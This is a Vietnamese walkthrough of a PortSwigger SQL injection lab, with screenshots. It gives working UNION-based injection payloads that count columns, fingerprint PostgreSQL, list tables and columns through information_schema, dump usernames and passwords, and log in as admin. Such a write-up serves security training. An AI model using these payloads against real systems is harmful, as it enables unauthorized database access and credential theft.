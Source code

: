 ## SQL injection attack, listing the database contents on non-Oracle databases

Tiếp tục thực hiện inject query vào sau url **' order by 2--** (tới 3 là lỗi) do web load bình thường ta biết được database vẫn có 2 trường.

Tiếp tục truy vấn ra tên cơ sở dữ liệu từng lệnh như trong cheatsheet để xác định cơ sở dữ liệu nào.  

> **' union select version(),NULL--**

![](/imgs/SQL-Injection/22.png?raw=true)

Lab yêu cầu ta phải đăng nhập bằng tài khoản trong bảng user nên ta phải biết bảng user tên là gì trong database
Câu query list tất cả các table trong Postgres: SELECT * FROM information_schema.tables
Nhưng chúng ta không thể select * để lấy tất cả được vì sẽ bị lỗi trên url => cho nên chúng ta sẽ sử dụng các column name đặc biệt trong Postgres.

(https://www.postgresql.org/docs/9.5/infoschema-columns.html)

![](/imgs/SQL-Injection/23.png?raw=true)

Sau khi thực hiện truy vấn **' UNION SELECT table_name,NULL%20 FROM information_schema.tables--**

![](/imgs/SQL-Injection/24.png?raw=true)

Chúng ta sẽ tìm tới bảng users, do sẽ có nhiều bảng user nên thường ngta sẽ đặt tên bảng là số nhiều nên chúng ta chỉ chú ý trước những bảng này để select.
Ở đây mình sẽ select bảng **users_tucmxy**

Dựa theo [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) lệnh select ra các trường có trong bảng sẽ là

> **SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'**

Áp dụng vào
> **' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_tucmxy--**

Chúng ta sẽ thu được 2 trường **username_sxdvlv** và **password_pnxobl**

![](/imgs/SQL-Injection/25.png?raw=true)

Chúng ta đã biết được tên các trường và tên bảng, tiến hành select ra data
> **' UNION SELECT username_sxdvlv,password_pnxobl from users_tucmxy--**

![](/imgs/SQL-Injection/26.png?raw=true)

Login vào tài khoản admin là solve

![](/imgs/SQL-Injection/27.png?raw=true)





